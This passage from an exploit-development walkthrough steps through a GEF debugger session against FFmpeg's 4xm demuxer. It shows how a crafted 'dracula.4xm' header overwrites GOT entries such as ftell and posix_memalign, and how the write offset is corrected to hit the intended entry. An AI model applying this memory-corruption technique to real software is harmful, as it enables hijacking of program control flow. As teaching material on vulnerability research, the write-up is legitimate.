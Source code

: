 ```
[#4] 0x8083069 → Name: av_open_input_stream(ic_ptr=0xffffd34c, pb=0x8826340, filename=0xffffd70f "dracula.4xm", fmt=0x84f0fe0 <fourxm_demuxer>, ap=0xffffd350)
[#5] 0x808b0d4 → Name: av_open_input_file(ic_ptr=0xffffd34c, filename=0xffffd70f "dracula.4xm", fmt=0x84f0fe0 <fourxm_demuxer>, buf_size=0x0, ap=0xffffd350)
[#6] 0x807b335 → Name: opt_input_file(filename=<optimized out>)
[#7] 0x807c983 → Name: parse_options(argc=0x3, argv=0xffffd584, options=0x83f5560 <options>, parse_arg_function=0x807a3e0 <opt_output_file>)
[#8] 0x8073326 → Name: main(argc=0x3, argv=0xffffd584)
────────────────────────────────────────────────────────────────────────
gef➤  x/xw 0x84ef134
0x84ef134 <posix_memalign@got.plt>:     0x00005622
gef➤
```

Ah so it seems this wasn't sufficient to overwrite memalign's GOT address with 0xffffffff, instead we got this 0x5622. where is this from? Recall that we are targetting this line of code: `fourxm->tracks[current_track].adpcm = AV_RL32(&header[i + 12]);`. Perhaps we have the correct value for `current_track` but not `fourxm->tracks[current_track].adpcm`? Recall the definition for an Audio Track?

```
 typedef struct AudioTrack {
     int sample_rate;        
     int bits;               
     int channels;           
     int stream_index;       
     int adpcm;              
 } AudioTrack;
```

The `int adpcm;` field is last! In fact, from the beginning of an audio track it is 16 bytes away. Perhaps if we looked a tad further we'd see our intended value?

```
gef➤  dereference 0x84ef134 10
0x084ef134│+0x00: 0x00005622 (""V"?)
0x084ef138│+0x04: <fcntl@got.plt+0> adc BYTE PTR [eax], al
0x084ef13c│+0x08: <bind@got.plt+0> add al, BYTE PTR [eax]
0x084ef140│+0x0c: 0x0805b946  →  <dlsym@plt+6> push 0x268
0x084ef144│+0x10: <ftell@got.plt+0> (bad)                           <------ bad??
0x084ef148│+0x14: 0x0805b966  →  <__isoc99_sscanf@plt+6> push 0x278
0x084ef14c│+0x18: 0x0805b976  →  <gmtime@plt+6> push 0x280
0x084ef150│+0x1c: 0xf7ec3b50  →  <__memset_sse2_rep+0> push ebx
0x084ef154│+0x20: 0x0805b996  →  <snprintf@plt+6> push 0x290
0x084ef158│+0x24: 0x0805b9a6  →  <tanh@plt+6> push 0x298
gef➤  x/xw 0x84ef144
0x84ef144 <ftell@got.plt>:      0xffffffff                          <------ b00m
gef➤
```

Okay, so what we want to target with our value is not `fourxm->tracks[current_track].adcpm` but `fourxm->tracks[current_track].sample_rate`. Fortunately a few assignments later there is an assignment to the `sample_rate` field, we should write to `header[i + 40]` not `header[i + 12]` as we have:

```
fourxm->tracks[current_track].sample_rate = AV_RL32(&header[i + 40]);
```
